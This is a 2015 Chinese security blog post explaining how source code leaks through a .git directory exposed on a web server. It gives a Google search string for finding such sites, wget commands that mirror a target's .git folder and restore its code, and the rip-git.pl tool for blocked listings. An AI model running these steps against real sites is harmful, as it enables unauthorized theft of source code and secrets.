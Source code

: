 ```yaml
---
id: 156
layout: post
title: '通过.git获取源码'
date: 2015-02-06 11:58:12
author: virusdefender
tags: 安全
---
```


本来是看到[这个文章][1]，觉得还不错，想简单翻译一下搬到博客上来。结果晚上就发现一篇更详细的ppt。

原 ppt 链接 http://www.slideshare.net/kost/ripping-web-accessible-git-files

中文翻译基于 http://zone.wooyun.org/content/18004，有修改~

在运行git init初始化代码库的时候 
会在当前目录下产生.git目录，用来记录代码的变更等等 

.git目录结构如下 
```
sky@linux:~/git-repo/test$ tree .git 
.git 
├── branches 
├── config 
├── description 
├── HEAD 
├── hooks 
│   ├── applypatch-msg.sample 
│   ├── commit-msg.sample 
│   ├── post-update.sample 
│   ├── pre-applypatch.sample 
│   ├── pre-commit.sample 
│   ├── prepare-commit-msg.sample 
│   ├── pre-push.sample 
│   ├── pre-rebase.sample 
│   └── update.sample 
├── info 
│   └── exclude 
├── objects 
│   ├── info 
│   └── pack 
└── refs 
    ├── heads 
    └── tags 

9 directories, 13 files 
```

发布代码的之后，直接把开发目录拷贝过去（.git）也在里面，然后就中奖了。。。 

google一下：`".git"  intitle:"index of"`

人肉获取法： 
```
mkdir git-test 
cd git-test 
#下载.git文件 
wget --mirror --include-directories=/.git http://www.target.com/.git 
cd www.target.com 
#版本回退，得到了源代码 
git reset --hard 
```

如果apache是Options FollowSymLinks，.git访问是403，上面这种人肉法就失效了。。。 

需要借助工具，来遍历关键文件并下载恢复： 
https://github.com/kost/dvcs-ripper 

```
rip-git.pl 

Example: ./rip-git.pl -v -u http://www.example.com/.git/ 
```

实例： 
[WooYun: 友盟网git服务使用不当导致源代码泄露][2] 
[被忽视的开发安全问题][3]
[HCTF writeup(web)][4]
[One git command may cause you hacked(CVE-2014-9390)][5]


git教程（写的真心详细） 
http://www.liaoxuefeng.com/wiki/0013739516305929606dd18361248578c67b8067c8c017b000


  [1]: https://blog.netspi.com/dumping-git-data-from-misconfigured-web-servers/
  [2]: http://www.wooyun.org/bugs/wooyun-2014-076372
  [3]: http://drops.wooyun.org/papers/4439
  [4]: http://drops.wooyun.org/tips/4070
  [5]: http://drops.wooyun.org/papers/4386
